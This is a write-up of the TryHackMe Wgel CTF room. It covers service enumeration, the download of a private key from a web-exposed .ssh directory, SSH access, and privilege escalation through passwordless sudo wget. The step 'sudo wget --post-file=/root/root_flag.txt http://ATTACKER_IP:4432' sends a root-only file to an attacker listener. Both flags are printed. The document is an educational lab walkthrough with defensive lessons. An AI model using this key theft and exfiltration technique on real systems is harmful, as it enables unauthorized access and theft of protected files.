

# Wgel CTF Write-up

## Wgel CTF Write-up

> **Scope:** This walkthrough documents activity performed only against the authorized [TryHackMe Wgel CTF room](https://tryhackme.com/room/wgelctf).

### Overview

The target exposed SSH and HTTP. Web enumeration discovered a publicly accessible `.ssh` directory beneath `/sitemap/`. An exposed private key allowed SSH access as `jessie`.

The sudo configuration allowed `wget` to run as root without a password. Wget’s `--post-file` option could read a root-only file and send its contents to a listener. This recovered the root flag without an interactive root shell.

| Item                 | Value                              |
| -------------------- | ---------------------------------- |
| Target               | `10.113.161.126`                   |
| Exposed services     | SSH `22/tcp`, HTTP `80/tcp`        |
| Initial user         | `jessie`                           |
| Initial access       | Exposed SSH private key            |
| Privilege escalation | Root `wget` file read and POST     |
| User flag            | `057c67131c3d5e42dd5cd3075b198ff6` |
| Root flag            | `b1b968b37519ad1daa6408188649263d` |

### Tools used

* Nmap
* Gobuster
* wget
* SSH
* Netcat

### 1. Enumerate services

I began with service and version detection:

```bash
nmap --top-ports 1000 -sS -A 10.113.161.126 -open
```

```
22/tcp open  ssh  OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
80/tcp open  http Apache httpd 2.4.18
```

The web service initially presented the default Apache page. I used directory enumeration to identify application content:

```bash
gobuster dir -u http://10.113.161.126 \
  --wordlist /usr/share/wordlists/dirb/common.txt
```

```
/index.html (Status: 200)
/sitemap    (Status: 301)
```

### 2. Discover the exposed SSH directory

I enumerated the discovered directory:

```bash
gobuster dir -u http://10.113.161.126/sitemap/ \
  --wordlist /usr/share/wordlists/dirb/common.txt
```

The scan returned an accessible `.ssh` directory:

```
/.ssh (Status: 301)
```

The private key was then downloadable through the web server:

```bash
wget http://10.113.161.126/sitemap/.ssh/id_rsa
chmod 600 id_rsa
```

> **Secret handling:** The private key is not reproduced here. Private keys must never be deployed inside web-accessible directories.

### 3. Authenticate as Jessie

The key authenticated as `jessie`:

```bash
ssh -i id_rsa jessie@10.113.161.126
```

I located the user flag in Jessie’s documents directory:

```bash
cat ~/Documents/user_flag.txt
```

```
057c67131c3d5e42dd5cd3075b198ff6
```

### 4. Review sudo permissions

The user could run any command with a password. More importantly, `wget` was passwordless as root:

```bash
sudo -l
```

```
(root) NOPASSWD: /usr/bin/wget
```

The installed version was GNU Wget `1.17.1`.

### 5. Read the root flag with wget

Wget supports `--post-file`, which reads a local file and includes it as the body of an HTTP POST request. Because `wget` runs as root, the option can read root-only files.

I started a local listener in the authorized lab:

```bash
nc -lvnp 4432
```

Then I instructed root-run Wget to POST the root flag to that listener:

```bash
sudo wget --post-file=/root/root_flag.txt http://ATTACKER_IP:4432
```

The listener received the HTTP request body:

```
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Content-Type: application/x-www-form-urlencoded

b1b968b37519ad1daa6408188649263d
```

This confirmed that passwordless `wget` could disclose root-readable files.

### Attack chain



### Security lessons

1. **Never expose `.ssh` directories through a web server.** Web roots must exclude private keys and all user home material.
2. **Restrict filesystem permissions and deployment paths.** A private key should only be readable by its owner.
3. **Avoid granting network clients through sudo.** Programs such as `wget` can read, upload, and overwrite files.
4. **Use command wrappers for privileged automation.** Validate fixed arguments and run with least privilege.
5. **Monitor outbound traffic from privileged processes.** Unexpected HTTP POST requests may signal data exfiltration.
